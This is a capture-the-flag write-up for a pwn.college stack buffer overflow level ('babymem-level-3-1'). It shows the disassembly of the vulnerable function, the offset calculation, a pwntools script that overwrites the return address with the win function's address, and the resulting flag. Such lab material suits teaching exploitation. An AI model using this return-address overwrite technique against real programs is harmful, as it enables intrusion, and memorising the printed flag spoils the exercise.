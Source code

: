 # level3.1
## Description
Overflow a buffer and smash the stack to obtain the flag!
## Solution
- The challenge file's name is `babymem-level-3-1`. Running `objdump -d -M intel babymem-level-3-1` inside `/challenge` and looking at the `challenge` function:
```
0000000000401ab2 <challenge>:
  401ab2:       f3 0f 1e fa             endbr64
  401ab6:       55                      push   rbp
  401ab7:       48 89 e5                mov    rbp,rsp
  401aba:       48 81 ec a0 00 00 00    sub    rsp,0xa0
  401ac1:       89 bd 7c ff ff ff       mov    DWORD PTR [rbp-0x84],edi
  401ac7:       48 89 b5 70 ff ff ff    mov    QWORD PTR [rbp-0x90],rsi
  401ace:       48 89 95 68 ff ff ff    mov    QWORD PTR [rbp-0x98],rdx
  401ad5:       48 c7 45 90 00 00 00    mov    QWORD PTR [rbp-0x70],0x0
  401adc:       00 
  401add:       48 c7 45 98 00 00 00    mov    QWORD PTR [rbp-0x68],0x0
  401ae4:       00 
  401ae5:       48 c7 45 a0 00 00 00    mov    QWORD PTR [rbp-0x60],0x0
  401aec:       00 
  401aed:       48 c7 45 a8 00 00 00    mov    QWORD PTR [rbp-0x58],0x0
  401af4:       00 
  401af5:       48 c7 45 b0 00 00 00    mov    QWORD PTR [rbp-0x50],0x0
  401afc:       00 
  401afd:       48 c7 45 b8 00 00 00    mov    QWORD PTR [rbp-0x48],0x0
  401b04:       00 
  401b05:       48 c7 45 c0 00 00 00    mov    QWORD PTR [rbp-0x40],0x0
  401b0c:       00 
  401b0d:       48 c7 45 c8 00 00 00    mov    QWORD PTR [rbp-0x38],0x0
  401b14:       00 
  401b15:       48 c7 45 d0 00 00 00    mov    QWORD PTR [rbp-0x30],0x0
  401b1c:       00 
  401b1d:       48 c7 45 d8 00 00 00    mov    QWORD PTR [rbp-0x28],0x0
  401b24:       00 
  401b25:       48 c7 45 e0 00 00 00    mov    QWORD PTR [rbp-0x20],0x0
  401b2c:       00 
  401b2d:       c7 45 e8 00 00 00 00    mov    DWORD PTR [rbp-0x18],0x0
  401b34:       66 c7 45 ec 00 00       mov    WORD PTR [rbp-0x14],0x0
  401b3a:       c6 45 ee 00             mov    BYTE PTR [rbp-0x12],0x0
  401b3e:       48 8d 45 90             lea    rax,[rbp-0x70]
  401b42:       48 89 45 f8             mov    QWORD PTR [rbp-0x8],rax
  401b46:       48 c7 45 88 00 00 00    mov    QWORD PTR [rbp-0x78],0x0
  401b4d:       00 
  401b4e:       48 8d 3d b7 05 00 00    lea    rdi,[rip+0x5b7]        # 40210c <_IO_stdin_used+0x10c>
  401b55:       b8 00 00 00 00          mov    eax,0x0
  401b5a:       e8 d1 f5 ff ff          call   401130 <printf@plt>
  401b5f:       48 8d 45 88             lea    rax,[rbp-0x78]
  401b63:       48 89 c6                mov    rsi,rax
  401b66:       48 8d 3d ae 05 00 00    lea    rdi,[rip+0x5ae]        # 40211b <_IO_stdin_used+0x11b>
  401b6d:       b8 00 00 00 00          mov    eax,0x0
  401b72:       e8 09 f6 ff ff          call   401180 <__isoc99_scanf@plt>
  401b77:       48 8b 45 88             mov    rax,QWORD PTR [rbp-0x78]
  401b7b:       48 89 c6                mov    rsi,rax
  401b7e:       48 8d 3d 9b 05 00 00    lea    rdi,[rip+0x59b]        # 402120 <_IO_stdin_used+0x120>
  401b85:       b8 00 00 00 00          mov    eax,0x0
  401b8a:       e8 a1 f5 ff ff          call   401130 <printf@plt>
  401b8f:       48 8b 55 88             mov    rdx,QWORD PTR [rbp-0x78]
  401b93:       48 8b 45 f8             mov    rax,QWORD PTR [rbp-0x8]
  401b97:       48 89 c6                mov    rsi,rax
  401b9a:       bf 00 00 00 00          mov    edi,0x0
  401b9f:       e8 ac f5 ff ff          call   401150 <read@plt>
  401ba4:       89 45 f4                mov    DWORD PTR [rbp-0xc],eax
  401ba7:       83 7d f4 00             cmp    DWORD PTR [rbp-0xc],0x0
  401bab:       79 2c                   jns    401bd9 <challenge+0x127>
  401bad:       e8 4e f5 ff ff          call   401100 <__errno_location@plt>
  401bb2:       8b 00                   mov    eax,DWORD PTR [rax]
  401bb4:       89 c7                   mov    edi,eax
  401bb6:       e8 e5 f5 ff ff          call   4011a0 <strerror@plt>
  401bbb:       48 89 c6                mov    rsi,rax
  401bbe:       48 8d 3d 83 05 00 00    lea    rdi,[rip+0x583]        # 402148 <_IO_stdin_used+0x148>
  401bc5:       b8 00 00 00 00          mov    eax,0x0
  401bca:       e8 61 f5 ff ff          call   401130 <printf@plt>
  401bcf:       bf 01 00 00 00          mov    edi,0x1
  401bd4:       e8 b7 f5 ff ff          call   401190 <exit@plt>
  401bd9:       48 8d 3d 8c 05 00 00    lea    rdi,[rip+0x58c]        # 40216c <_IO_stdin_used+0x16c>
  401be0:       e8 2b f5 ff ff          call   401110 <puts@plt>
  401be5:       b8 00 00 00 00          mov    eax,0x0
  401bea:       c9                      leave
  401beb:       c3                      ret
```
- We see that the buffer starts from [rbp-0x70]. This means that there are 112 bytes between the buffer and the saved base pointer. 
- From [level3.0](./level3.0.md)'s hexdump, we can infer that passing a payload of 128 bytes (where the last 8 bytes are the address of the win function) will overwrite the return address with the address of the win function and get the flag.
- From the disassembly, I noted that the win function is at `00000000004019ab`.
- I wrote a python script to generate the payload:
```python
import pwn

padding = b'A' * 120
payload = padding + pwn.p64(0x00000000004019ab)

r = pwn.process('/challenge/babymem-level-3-1')
r.recvuntil('size:')
r.sendline('128')

r.recvuntil('bytes)!')
r.send(payload)
print(r.readall())
```
- Running the script will give us the flag: `pwn.college{06KmMwMATSHuAhmxFvPRIrMBJlX.0FN5IDL5QTO0czW}`.